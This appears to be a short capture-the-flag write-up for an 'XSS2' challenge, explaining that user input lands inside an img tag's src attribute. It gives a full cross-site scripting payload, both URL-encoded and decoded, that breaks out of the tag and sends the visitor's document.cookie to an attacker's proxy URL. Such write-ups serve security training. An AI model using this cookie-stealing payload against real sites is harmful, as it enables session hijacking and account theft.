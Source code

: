 # XSS2
## Description
Just like XSS1, but this time the text sent is put inside a ```<img src="<input_text>``` tag.
## Exploit
Because the challenge is very much like XSS1, the exploit is also the same.
The payload is: ```http://xss2.challs.cyberchallenge.it/?html=%5C%22%3E%3Cscript%3Edocument.location=%22<your_proxy_url>?admin=%22+document.cookie%3C/script%3E``` (the html param is ```\"><script>document.location="<your_proxy_url>?admin="+document.cookie</script>```, URL decoded).
The ```\">``` part is there to close the ```<img>``` tag, and the script is the same of XSS1.
